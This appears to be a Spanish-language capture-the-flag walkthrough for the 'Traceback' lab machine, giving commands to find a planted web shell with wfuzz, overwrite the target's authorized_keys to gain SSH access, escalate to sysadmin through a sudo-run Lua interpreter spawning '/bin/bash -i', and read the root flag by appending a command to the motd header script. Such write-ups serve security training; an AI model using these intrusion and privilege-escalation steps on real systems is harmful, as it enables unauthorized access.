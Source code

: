 ## Traceback
## Herramientas a Utilizar
- nmap
- wfuzz
- ssh-keygen
- chmod

```
nmap -n -A -o scan.tracerback.txt 10.10.10.181
```

Iremo a la siguiente web:
```
https://github.com/TheBinitGhimire/Web-Shells
```

Debemos descargaremos todo los nombre de shell de este site y lo pondremos en txt.

El cual llamaremos: `rsearch.txt`

Luego buscaremos coincidencia de las misma con el siguiente comando.
```
wfuzz -c -z file,'rsearch.txt' http://10.10.10.181/FUZZ
```
Encontraremos 

000000015: 200 58 L 100 W 1261 Ch `"smevk.php" `

Debemos ejecutar ahora
```
http://10.10.10.181/smevk.php
```

En este panel debemos escribir `"Change Dir"` 
nos movemos a 
```
/home/.ssh/
```
Aqui debemos crear nuestra propia llave de ssh `publica` y `privada` para conectarno

**Como generamos nuestra Llaves.**
En nuestra maquina iremos a `home` de nuestro usuario y accederemos al directorio `.ssh`

Desde aqui ejecutaremos:
```
ssh-keygen <enter>
```
[+] Enter file in which to save the key `(/home/ylo/.ssh/id_rsa):` *presionadmos enter*
Enter passphrase `(empty for no passphrase):` *Digitamos nuestra clave*
Enter same passphrase again: *Confirmamos la clave digitada*


Este proceso nos generara dos archivo:
`id_rsa` = *Llave privada*
`id_rsa.pub` = *Llave publica*

Copiamos el contenido de nuestra llave publica `id_rsa.pub` y Creamos un archivo llamado `authorized_key`.
```
cp id_rsa.pub authorized_key
```

Ahora volver al portal
```
http://10.10.10.181/smevk.php
```
Nos movemos al diretorio
```
/home/webadmin/.ssh/ 
```
Eliminaremos el archivo `authorized_key` 
Luego subimos nuestro archivo `authorized_key`

Volvemos a nuestra maquina desde donde creamos nuestra llaves publica y privada
y al archivo `id_rsa` le cambiar el permiso para poder utilizarlo.

```
chmod 444 id_rsa
```

Nos conectaremos a la maquina de la siguiente manera:

```
ssh -i id_rsa webadmin@10.10.10.181
```
Si todo va bien solo debemos poner la clave con la cual generamos la llaves.

>Una vez dentro podemos ver un archivo llamado `trace.lua` con el cual posiblemente podriamo escaleremos privilegio.
```
ls -la trace.lua
```

Continuando la enumeracion si ejecutamos 
```
ps aux
````
Notaremos que un proceso que esta ejecutando lo siguiente: `sudo -u sysadmin /home/sysadmin/luvit` entre otra cosas, pero solo tomaremos esta parte.

Ahora tenemos lo siguiente:
`sudo -u sysadmin /home/sysadmin/luvit`
El contenido del archivo trace.lua
`os.execute("/bin/bash -i")`

Por lo que si ejecutamos:
```
sudo -u sysadmin /home/sysadmin/luvit trace.lua 
whoami
sysadmin 
```
Y con esto tenemos ahora tenemos permiso de `sysadmin`

```
cd /home/sysadmin
cat user.txt
```

Ahora para conseguir la Flag del root y despues de buscar y buscar y buscar 😢  iremos a:

```
cd /etc/update-motd.d/
cat 00-header
```
Este archivo nos muestra una forma muy peculiar de ejecutar algo al momento de iniciar session ssh
```
echo "cat /root/root.txt" >> 00-header
```

Inmediatamente abriremos otra Terminal para conectarnos otra vez via ssh.
```
ssh -i id_rsa webadmin@10.10.10.181
```

Al conectarno en el Welcome del ssh debe aparecer la flag del root. 🤷‍♂️
